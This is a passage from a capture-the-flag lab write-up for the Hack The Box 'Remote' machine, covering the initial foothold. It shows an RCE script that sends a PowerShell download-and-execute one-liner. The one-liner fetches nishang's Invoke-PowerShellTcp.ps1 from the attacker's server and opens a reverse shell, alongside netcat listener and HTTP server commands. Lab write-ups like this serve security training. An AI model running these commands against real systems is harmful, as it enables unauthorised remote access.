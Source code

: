 ## Initial foothold
---
### Exploiting the vulnerability

Now that we have remote command execution on the target host, we can utilize it to connect to our attack host using a <mark>reverse shell</mark>.

Let’s use the exploit with nishang’s reverse shell PowerShell module—[Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Instructions on how to invoke it can be found on line 19.

{% highlight shell %}
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
{% endhighlight %}

The command below will launch <mark>PowerShell</mark>, download the <mark>Invoke-PowerShellTcp.ps1</mark> from our Python server, and call it from memory on the target host. After the semicolon (<mark>;</mark>), we will invoke the transferred and executed module.

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ python3 rce.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.9:1337/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 1234"
{% endhighlight %}

### Setting up the attack

#### Netcat

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ nc -lvnp 1234
listening on [any] 1234 ...
{% endhighlight %}

#### Python server

{% highlight shell %}
┌──(iwo㉿kali)-[~/Downloads]                                         
└─$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
{% endhighlight %}

### Getting a shell

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ python3 rce.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c powershell -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.9:1337/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 1234"
{% endhighlight %}
